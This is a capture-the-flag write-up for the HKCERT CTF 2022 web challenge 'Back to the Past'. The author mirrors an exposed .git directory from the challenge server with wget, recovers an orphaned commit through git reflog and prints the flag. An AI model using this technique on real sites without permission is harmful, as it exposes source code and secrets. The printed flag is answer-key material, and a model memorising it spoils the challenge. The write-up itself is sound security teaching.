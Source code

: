 # Back to the Past

## Overview

- Overall difficulty for me (From 1-10 stars): ★★★★☆☆☆☆☆☆

- Challenge difficulty: ★☆☆☆☆

## Background

Web: [http://chal.hkcert22.pwnable.hk:28222](http://chal.hkcert22.pwnable.hk:28222)

Solution: [https://hackmd.io/@blackb6a/hkcert-ctf-2022-ii-en-6a196795](https://hackmd.io/@blackb6a/hkcert-ctf-2022-ii-en-6a196795)

![](https://github.com/siunam321/CTF-Writeups/blob/main/HKCERT-CTF-2022/images/Pasted%20image%2020221111215817.png)

## Find the flag

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HKCERT-CTF-2022/images/Pasted%20image%2020221111215846.png)

**View-source:**
```html
<html>
<head>
    <title>Welcome</title>
</head>

<body style="background: black; color: white;">
    <h1 style="text-align:center;">Welcome to my home page!</h1>

    <p style="text-align:center;"><a href="https://www.youtube.com/watch?v=o1UcRXTXmN4><img src="img/door.png" height="200" class="center"
[...]
```

**Let's explore this web page!**

When I click the door, it brings me to a YouTube video, which is not helpful.

**However, when I go to `/img` directory, I see a picture:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HKCERT-CTF-2022/images/Pasted%20image%2020221111220053.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/HKCERT-CTF-2022/images/Pasted%20image%2020221111220057.png)

403 Forbidden...

Since the challenge's name is `Back to the Past`, this got me thinking: **Is this website being push via `git`?**

**If so, it might have a directory call `.git`**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HKCERT-CTF-2022/images/Pasted%20image%2020221111220207.png)

**Boom! Let's `wget` all the files!**
```
┌──(root🌸siunam)-[~/ctf/HKCERT-CTF-2022/Web/Back-to-the-Past]
└─# mkdir .git;cd .git            
                                                                                                           
┌──(root🌸siunam)-[~/…/HKCERT-CTF-2022/Web/Back-to-the-Past/.git]
└─# wget -r http://chal.hkcert22.pwnable.hk:28222/.git/

┌──(root🌸siunam)-[~/…/Web/Back-to-the-Past/.git/chal.hkcert22.pwnable.hk:28222]
└─# ls -lah            
total 20K
drwxr-xr-x 4 root root 4.0K Nov 11 22:03 .
drwxr-xr-x 3 root root 4.0K Nov 11 22:03 ..
drwxr-xr-x 8 root root 4.0K Nov 11 22:03 .git
drwxr-xr-x 2 root root 4.0K Nov 11 22:03 img
-rw-r--r-- 1 root root 1.8K Oct 25 10:34 index.html
```

**Since it's a `.git` directory, we can view its logs and commits!**
```
┌──(root🌸siunam)-[~/…/Web/Back-to-the-Past/.git/chal.hkcert22.pwnable.hk:28222]
└─# git log
commit 77fe6ae33755cbac75cf2bf00014a9e4b2f08903 (HEAD -> master)
Author: Holland Wan <noreply@noreply.com>
Date:   Fri Oct 21 22:48:35 2022 +0800

    Final webpage

commit a9c248a136bb24592cfe1dd14805dde9da321c4d
Author: Holland Wan <noreply@noreply.com>
Date:   Fri Oct 21 22:38:59 2022 +0800

    Initial

┌──(root🌸siunam)-[~/…/Web/Back-to-the-Past/.git/chal.hkcert22.pwnable.hk:28222]
└─# git reflog 
77fe6ae (HEAD -> master) HEAD@{0}: commit: Final webpage
a9c248a HEAD@{1}: reset: moving to a9c248a136bb24592cfe1dd14805dde9da321c4d
4ba5380 HEAD@{2}: commit: What is this?
a9c248a HEAD@{3}: commit (initial): Initial
```

**The `What is this?` commit looks sussy!**

**Let's `checkout` that commit!**
```
┌──(root🌸siunam)-[~/…/Web/Back-to-the-Past/.git/chal.hkcert22.pwnable.hk:28222]
└─# git checkout 4ba5380 -f
```

```
┌──(root🌸siunam)-[~/…/Web/Back-to-the-Past/.git/chal.hkcert22.pwnable.hk:28222]
└─# ls -lah
total 16K
drwxr-xr-x 3 root root 4.0K Nov 11 22:07 .
drwxr-xr-x 3 root root 4.0K Nov 11 22:03 ..
-rw-r--r-- 1 root root   52 Nov 11 22:07 flag.txt
drwxr-xr-x 8 root root 4.0K Nov 11 22:07 .git
                                                                                                           
┌──(root🌸siunam)-[~/…/Web/Back-to-the-Past/.git/chal.hkcert22.pwnable.hk:28222]
└─# cat flag.txt                     
hkcert22{n0stalgic_w3bs1t3_br1ings_m3_b4ck_to_2000}
```

We got the flag!

# Conclusion

What we've learned:

1. Insecurely Storing Files